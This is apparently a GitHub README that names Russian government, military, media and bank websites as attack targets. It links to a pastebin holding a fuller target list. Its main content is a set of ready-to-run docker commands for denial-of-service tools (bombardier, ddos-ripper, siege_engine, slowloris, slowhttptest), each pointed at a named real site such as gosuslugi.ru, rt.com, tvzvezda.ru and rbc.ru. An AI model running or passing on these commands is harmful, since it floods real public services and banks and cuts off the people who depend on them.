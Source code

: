 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID

# Propaganda

```
tvzvezda.ru  
echo.msk.ru  
rg.ru  
kp.ru  
rusvesna.su
```

# Banks

```
https://www.open.ru/
https://nsbank.ru/
https://www.lanta.ru/
https://www.akbars.ru/en/
https://www.bspb.ru/
https://realistbank.ru/
https://skbbank.ru/
https://bbr.ru/
https://domrfbank.ru/
https://kk.bank/
https://www.coalmetbank.ru/
https://bcs-bank.com/
https://www.raiffeisen.ru/
https://energotransbank.com/
https://www.uralsib.ru/
https://alfabank.ru/
https://mosoblbank.ru/
https://smpbank.ru/
https://sberbank.ru/
```

# Bank API

```
https://www.acs.gazprombank.ru/auth/pareq
```

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```

